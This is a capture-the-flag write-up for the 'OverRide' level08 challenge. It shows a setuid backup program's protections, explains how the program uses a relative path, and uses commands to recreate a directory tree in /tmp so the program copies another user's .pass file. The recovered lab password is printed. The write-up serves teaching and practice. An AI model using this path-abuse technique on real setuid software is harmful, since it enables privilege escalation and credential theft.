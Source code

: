 Level08 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

Level08 rights:
```Shell
level08@OverRide:~$ ls -la level08 
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
```

Testing the binary:
```Shell
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 .pass
ERROR: Failed to open ./backups/.pass
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Here is a breakdown of what the program does step-by-step:
- it takes a filename as argument
- there is `backups` folder with nothing but a `.log` file
- it records into the `.log` file the attempt to create a backup of its content
- finally it tries to open the file and create a backup inside the `./backups/` folder.

The reason why it doesn't work when we try with `/home/users/level09/.pass` is because none of those folders exist inside `./backups/`. And unfortunately, we do not have the rights to create folders here.

The program uses a relative path to any `backups` folder that exists at the current directory.
So a solution would be to go into `/tmp` (where we do have writing rights), recreate a brand new path with all the necessary folders and execute the program.

Here it is, inside of `/tmp`:
```Shell
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat /tmp/backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```